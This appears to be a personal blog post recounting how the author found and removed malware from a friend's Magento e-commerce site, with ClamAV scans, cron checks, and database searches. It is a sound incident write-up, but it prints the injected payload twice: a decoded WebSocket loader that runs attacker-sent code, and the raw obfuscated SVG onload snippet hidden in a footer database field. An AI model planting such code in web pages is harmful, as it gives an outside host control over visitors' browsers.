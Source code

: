 ```yaml
---
layout: post
title: Magento has virus, how I got rid of it
date: 2024-09-03 22:25 +0200
image:
  path: /assets/img/posts/2024-09-03-magento-virus-how-i-got-rid-of-it/img001.webp
  alt: A computer in the dark lighting red from the monitor
categories: [Security, Malware]
tags: [magento, security, malware]
---
```

One day I received a call from a friend who informed me their system had been infected by a virus and they were asking for help getting rid of it, I immediately said that I would help thinking it would be an easy fix, However, I quickly realized I was wrong.

## Keep the world away!!

The first thing I did was isolate the site from the outside world and made it possible only to access it from my computer by whitelisting only my IP, which allowed me to continue working with the site remotely.

When a system is affected by a virus, it is crucial to isolate it from the outside world to prevent the virus from spreading, by, if possible, disconnect it from the network entirely by removing the network cable. However, this wasn't possible because I was miles away, so I had to do what I could remotely.

## Mr. Virus, where are you hiding?

Now that I had isolated the virus it was time to find the bugger, I started with looking into all the logs I could think of to see if there would be any indications of where the virus could be located and also to see if there was any indications that any data had left the server and I could not see any logs of this, either it was sophisticated enough to remove all log entries it generated or it was never able to set up any connection outside of the server, hopefully the latter but we can never be sure and should always take responsibility and inform the users of an potential data leak.

After thoroughly reviewing the logs, I concluded that they would not reveal to me the path to the virus so I moved on and ran a service called ClamAV (clamscan) to see if it could find any suspicious files.
 
```bash
sudo clamscan -r / --infected --remove
```

and success it could find 2 files, defunct and defunct.dat which I removed, in the same folder I could find a log file telling me it had tried to setup a cronjob but had failed doing so, I removed this file also, unfortunately before I documented the content of the file, so even that I want to show what the content I can't.

Once the files were removed I ran the service again to make sure the files was really removed and not other infected files could be found.

## Was there any cron jobs?

So the log file I found had exposed that it tried to create a cron job so I of course had to make sure it actually didn’t manage to do so and that the logs wasn't lying to me so I went through all cron jobs for each user, wanted to be sure nothing was hidden so I checked in multiple ways:

```bash
$ crontab -l
$ sudo crontab -l
$ sudo -u www-data crontab -l
$ sudo cat /etc/crontab
$ sudo ls /etc/cron.*
```

No mather how I checked I could not find any njob that looked weird, so made the conclusion that it was actually never able to create any cronjobs.

Even if a log says something or even worse, says nothing you should always expect the worst because the logs might be trying to throw you off, so it's better to be safe than sorry. 

## So was that it?

Now with the infected files gone you might think it was safe to open up the server to the world again, but not so fast!

The infected files might have been removed but there can still be danger around the corner so what I did was to set up a proxy so only I could access the site from my computer and could see that the site tried to create a WebSocket connection, but that connection was blocked by CSP (Content Security Policy), so instead I got a console error that looked like this:

```
Content-Security-Policy: (Report-Only policy)
The page’s settings would block the loading of a resource (connect-src)
at wss://fallodick87-78.sbs/common…
```

I looked into what the dev tool in the browser was saying about the script that was trying to be run and could find the following:

```javascript
(function anonymous() {
  const ogt = [
    93, 89, 89, 16, 5, 5, 76, 75, 70, 70, 69, 78, 67, 73, 65, 18, 29, 7, 29,
    18, 4, 89, 72, 89, 5, 73, 69, 71, 71, 69, 68, 21, 89, 69, 95, 88, 73, 79,
    23
  ];
  hky = 42;
  const xvk = String.fromCharCode(...ogt.map(airu => airu ^ hky));
  window.ww = new WebSocket(xvk + encodeURIComponent(location.href));
  window.ww.addEventListener('message', event => {
    new Function(event.data)();
  });
})
```

So as I was afraid, that there was still something wrong that needed to be investigated, so I started to search the webbserver for keywords from the script that the browser had shown me, I knew that variable names and function names get’s randomly generated for security reasons in the browser so I focused on other keywords like “WebSocket”, “addEventListener”, “encodeURIComponent” and so on but no luck.. I concluded that the problem was not on the web server side, then where can it be?

The only other part of the system I knew that could store these kind of data is the database so I created a dump of the entire databas so I could easily search though it and started to search for different keywords but again no luck, I was really confused and lost now and it was in the middle of the night so lack of sleep was also fighting against me here and might be the reason why I missed two things that would had made my find this earlier but more about that later.

I keep’t digging for clues on both the webbserver side and in the database but still no luck, finally I opened up the site in Chrome to see if I got another error there and what happen was that Chrome did something that Firefox didn’t and that was to point out the location of where the infected script was in the DOM and there I could see that it was a svg tag that was generating the infected script so went back to the database and went through all entries with an svg in it and finally found it!!

```sql
(
    XXXX,
    'default',
    0,
    'design/footer/absolute_footer',
    '\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r
    \n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n<svg width=\"1px\"
     height=\"1px\" onload=\"!function(aa,t){!function(aa){var n=function(aa,t)
     {return aa.split(\'\').map(function(aa,n){return String.fromCharCode(aa.
     charCodeAt(0)^t.charCodeAt(n%t.length))}).join(\'\')}(aa.split(\'\')
     .reverse().join(\'\'),t);new Function(n)()}(aa)}(
     \'\\x5c\\x48\\x09\\x5c\\x4e\\x49\\x5d\\x06\\x13\\x00\\x10\\x49\\x13\\x0f
     \\x11\\x11\\x02\\x49\\x1a\\x08\\x0e\\x15\\x17\\x09\\x12\\x27\\x54\\x10\\x02
     \\x0f\\x0f\\x47\\x59\\x5c\\x54\\x13\\x09\\x04\\x02\\x02\\x47\\x4d\\x53\\x02
     \\x00\\x00\\x07\\x14\\x02\\x0c\\x53\\x4f\\x15\\x04\\x1a\\x02\\x13\\x12\\x1d
     \\x2b\\x13\\x0f\\x11\\x11\\x22\\x05\\x10\\x06\\x49\\x16\\x03\\x49\\x10\\x0e
     \\x10\\x09\\x0e\\x16\\x4f\\x4e\\x4e\\x07\\x11\\x15\\x0f\\x4f\\x1a\\x08\\x0e
     \\x15\\x15\\x04\\x08\\x0d\\x5c\\x13\\x09\\x04\\x1a\\x08\\x17\\x0c\\x1b\\x24
     \\x2e\\x33\\x21\\x02\\x03\\x0e\\x17\\x09\\x02\\x41\\x5f\\x47\\x0c\\x17\\x0c
     \\x4f\\x13\\x04\\x1f\\x04\\x08\\x32\\x16\\x02\\x30\\x41\\x03\\x02\\x09\\x41
     \\x49\\x47\\x10\\x16\\x5a\\x10\\x08\\x05\\x1a\\x0e\\x10\\x5a\\x5d\\x4e\\x1e
     \\x0a\\x1c\\x47\\x39\\x41\\x01\\x15\\x0e\\x00\\x54\\x59\\x5a\\x41\\x01\\x15
     \\x0e\\x00\\x5c\\x17\\x06\\x0c\\x5a\\x13\\x00\\x0e\\x5a\\x49\\x49\\x49\\x11
     \\x03\\x08\\x22\\x06\\x06\\x0f\\x22\\x19\\x08\\x15\\x07\\x5a\\x00\\x09\\x08
     \\x06\\x13\\x34\\x41\\x49\\x47\\x0c\\x17\\x0c\\x47\\x13\\x12\\x1a\\x08\\x04
     \\x5a\\x46\\x53\\x47\\x5c\\x54\\x1e\\x0c\\x09\\x4f\\x3a\\x54\\x53\\x58\\x5e
     \\x50\\x4d\\x47\\x50\\x4b\\x59\\x4c\\x4b\\x52\\x58\\x58\\x5e\\x51\\x4d\\x4d
     \\x5f\\x4b\\x50\\x46\\x4b\\x5f\\x57\\x58\\x5e\\x51\\x4d\\x45\\x50\\x4b\\x50
     \\x43\\x4b\\x5e\\x57\\x58\\x54\\x50\\x4d\\x41\\x4b\\x5e\\x59\\x58\\x55\\x50
     \\x4d\\x4d\\x5f\\x4b\\x55\\x58\\x5f\\x56\\x4d\\x4d\\x55\\x4b\\x56\\x58\\x5e
     \\x55\\x4d\\x4c\\x56\\x4b\\x54\\x42\\x4b\\x54\\x56\\x58\\x50\\x51\\x4d\\x4c
     \\x50\\x4b\\x58\\x42\\x4b\\x57\\x56\\x58\\x57\\x50\\x4d\\x41\\x50\\x4b\\x57
     \\x43\\x4b\\x52\\x4d\\x41\\x4b\\x51\\x50\\x58\\x5e\\x5f\\x4d\\x4d\\x5f\\x4b
     \\x52\\x4d\\x3c\\x47\\x5c\\x54\\x13\\x00\\x0e\\x54\\x13\\x14\\x0f\\x1b\\x04\', 
     \'gtag\');\"></svg>',
    'YYYY-mm-dd HH:ii:ss'
  )
```

Removing the infected script and took a part of the script and made another search of the dump I could find another place that had the same script so I removed that as well, and with all the infected scripts removed I went back to my browser and could confirm that no more WebSockets was trying to be created so I called that an success!

## I did some mistakes..

So after this success, I summarized the process and realized that I had made two mistakes that could have saved me some time:

1. When I used Firefox I could have asked it to show me where in the DOM the script was, but I was to focused on what the dev tool said about the script that was trying to be executed that I never thought about looking in the DOM at all, a lesson learned!
2. Even though I tried multiple words from the script, I couldn't find them because they were encoded and then decoded in the browser. However, there was one word I missed that would have pointed me directly to the source without having to look into the DOM: 'fromCharCode', this existed both in the generated script and in the database.

Even though I made these mistakes that made the process longer I am happy I made them because when you make mistakes you learn so if this happens again or I have to search for similar things I will have in my memory to both check all keywords and also check the DOM.

## Time to open up the site to the world and go to bed!

Not really, the virus was now confirmed gone but somehow it had been allowed access into the system, so we had a hole somewhere, so what I wanted to do was to upgrade the site, the composer packages and also the Linux packages to the latest version to help mitigate that it would happen again, so I spent another hour or two making sure everything was up to date.
Usually I would have done this in a development environment first but because the site is being used every day I wanted to speed up the process and do it immediately in production and this was okay by the owner (my friend), but as a general rule, always do the upgrade first in a test or dev environment to make sure nothing crashes before upgrading your production environment.

## Finally time to go live

Once everything was up-to-date, I reopened the site to the world and informed the owner that everything is back in business and requested that they inform their users about the breach so they can make the necessary actions.

My final advice is to ensure your systems have good logs, are monitored, and up-to-date and has all the necessary security features enabled to prevent this to happen to you, you can never protect yourself entirely from a virus or a hacker but you can make it hard for them and let them work for it.
